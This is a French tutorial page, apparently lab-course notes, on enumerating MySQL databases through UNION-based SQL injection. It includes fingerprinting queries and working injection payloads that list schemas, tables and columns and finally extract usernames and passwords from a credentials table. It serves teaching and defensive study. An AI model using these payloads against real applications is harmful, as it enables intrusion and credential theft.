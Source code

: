 ```yaml
---
title:  "Énumération de bases de données"
category: "Exploitation"
tag: "Principes de base de l'injection SQL"
---
```

Auparavant, nous avons vu comment faire utiliser les différents types d'injections SQL.  
Cette section mettra tout cela à profit afin de recueillir des informations provenant des bases de données.

# Empreinte MySqL

Avant de faire de l'énumération d'une base de donnée, il est intéressant de savoir avec quel type de SGBD nous sommes en train d'intéragir. La raison pour cela est que chaque SGBD a ses différentes requêtes, et le connaître permettra de savoir quelles requêtes utiliser.

Nous pouvons deviner certains SGBD. Si par exemple le serveur web renvoie une réponse HTTP de **Apache ou Nginx**, on peut supposer que le serveur web tourne sur Linux, et que le SGBD est **MySQL**.\
Le même raisonnement s'applique avec le SGBD Microsoft si le serveur web est **IIS**, on peut supposer qu'il s'agit de **MSSQL**.

Comme nous ciblons MySQL dans ce module, on va prendre l'empreinte des bases de données MySQL.

| Payload          | Quand l'utiliser                                | Résultat attendu                                          | Mauvais résultat                                                       |
|------------------|-------------------------------------------------|-----------------------------------------------------------|------------------------------------------------------------------------|
| SELECT @@version | Lorsque nous disposons d'une requête complète   | Version de MySQL 'i.e. 10.3.22-MariaDB-1ubuntu1'          | Dans MSSQL, il renvoie la version de MSSQL. Erreur avec d'autres SGBD. |
| SELECT POW(1,1)  | Lorsque nous n'avons que des données numériques | 1                                                         | Erreur avec d'autres SGBD                                              |
| SELECT SLEEP(5)  | Sortie aveugle/absence de sortie                | Retarde la réponse de la page de 5 secondes et renvoie 0. | Ne retarde pas la réponse avec d'autres SGBD                           |


# Base de données INFORMATION_SCHEMA 

Afin d'extraire des données des tables en utilisant **UNION SELECT**, nous devons formuler correctement nos requêtes **SELECT**.
Pour cela, nous avons besoin des informations suivantes :
- La liste des bases de données.
- La liste des tables dans chaque base de données.
- La liste des colonnes de chaque table.

Pour obtenir toutes ces informations, nous devons utiliser la base de donnée [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html), qui contient les metadatas à propros des BDD et des tables présentes dans le serveur.

De plus, si nous devons faire un appel **SELECT** sur une table qui n'est pas dans la base de données courante, nous devons spécifier la base de données en question.
Dans le cas contraire, le **SELECT** essayera de trouver dans la base de données courante et ne trouvera pas les informations nécessaires.

Pour cela, il est nécessaire d'utiliser la syntaxe suivante :

```sql
SELECT * FROM my_database.users;
```

Avec les informations de la base **INFORMATION_SCHEMA**.

# SCHEMATA

Pour commencer l'énumeration, nous devons trouver les bases de données disponible sur le SGBD. La table **[SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)** dans la base de données **INFORMATION_SCHEMA** contient les informations (dont les **noms des BDD**) à propos de toutes les bases du serveur. 

```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
```
> Les 3 premières bases de données sont des BDD MySQL par défault, et sont présent dans n'importe quel serveur. On les ignore pour l'énumération.

On peut appliquer ce qu'on a vu dans la requête **UNION** pour récupérer les bases :

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA1.png" alt="Alt text"></center>

Dans l'exemple, on voit 2 bases de données : ifreight et dev.
Faisons un **SELECT database()** pour découvrir la base de données utilisée par l'application web pour récupérer les ports.
```sql
cn' UNION select 1,database(),2,3-- -
```
<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA2.png" alt="Alt text"></center>

On voit qu'il s'agit ici de la base **ifreight**.

# Table
Bien que dans l'exemple précédent, la base de données **ifreight** soit utilisée, il peut être intéréssant de voir ce que contient la base dev.

Pour cela nous devons récupérer les tables de la BDD **dev**.
La table **[TABLES](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)** contient des informations sur toutes les tables de toutes les bases de données.

Deux colonnes sont intéréssantes :
- **TABLE_NAME** qui contient le nom des tables.
- **TABLE_SCHEMA** qui indique à quelle base de données la table appartient.

Dans notre exemple, le payload suivant serait fonctionnel :

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA3.png" alt="Alt text"></center>

Ici, la table qui pourrait être intéréssante est **credentials**.

# Colonnes

Pour dump les données de la table **credentials** on a besoin de savoir le nom des colonnes de la tables, qui peuvent être trouvé dans la table **COLUMNS** de la base **INFORMATION_SCHEMA**.

Si on veut récupérer par exemple les colonnes, avec leurs tables associées et la base de données correspondante, sur l'exemple habituel cela donne :

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA4.png" alt="Alt text"></center>

On peut voir qu'on a les colonnes **username et password** dans la table **credentials**, qui elle-même appartient à la base de données **dev**.

# Données

Enfin, nous arrivons au moment qui nous intéresse, celui de récupérer les données (ici username et password de la table credential).

Avec la commande UNION, cela donne :
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```


<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/INFORMATIONSCHEMA5.png" alt="Alt text"></center>




